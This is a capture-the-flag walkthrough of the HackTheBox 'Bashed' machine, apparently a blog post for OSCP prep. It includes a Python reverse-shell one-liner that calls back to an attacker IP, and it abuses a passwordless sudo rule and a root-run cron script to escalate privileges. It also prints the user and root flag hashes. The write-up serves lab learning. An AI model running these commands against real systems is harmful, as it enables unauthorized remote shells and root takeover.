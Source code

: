 ```yaml
---
title: HackTheBox - Bashed
date: 2020-12-26 23:59:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, phpbash, reverse-shell, sudo weak configuration, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/Bashed.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN Bashed.txt 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Apache/2.4.18 (port 80)

![Arrexel's Development Site](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-1.png)

![only post](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/web-2.png)

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/dirb.png)

#### phpbash

As mentionned on the post we saw earlier &uarr;, [phpbash](https://github.com/Arrexel/phpbash) is running on `/dev`:

![phpbash](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/phpbash.png)

## reverse shell (`www-data`)

```bash
export RHOST="10.10.14.7";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

![reverse-shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/reverse-shell.png)

```bash
$ ls /home
arrexel  scriptmanager
```

We can read `user.txt` by the way:

```bash
$ cat /home/arrexel/user.txt
2c281f318555dbc1b856957c7147bfc1
```

Okay, so we identified two users:

1. `arrexel` 
2. `scriptmanager`

How about us?

```bash
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

The sudo config tells us that we can switch to `scriptmanager` without password.

## User #1 (scriptmanager)

```bash
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ find / -user $(whoami) 2>/dev/null | grep -v "^/proc"   
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout 
```

Let's inspect this `/scripts` directory:

```
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Dec 26 13:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt; echo ""
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

That's suspicious buddy. **root** own the file `test.txt`.

![suspicious gif](https://i.gifer.com/LQW.gif)

Moreover, the file is updated every minute (cronjob?). This implies that `test.py` is executed every minute also. 

More precisely by **root** because the script creates the file `test.txt` and it's owned by him:

![minute](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/minute.png)

## Root

Let's copy `root.txt` in `/tmp`:

```bash
$ echo "import os; os.system('cp /root/root.txt /tmp/flag'); os.system('chmod 444 /tmp/flag');" > test.py 
```

![flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/bashed/flag.png)

```bash
scriptmanager@bashed:/scripts$ cat /tmp/flag
cc4f0afe3a1026d402ba10329674a8e2
```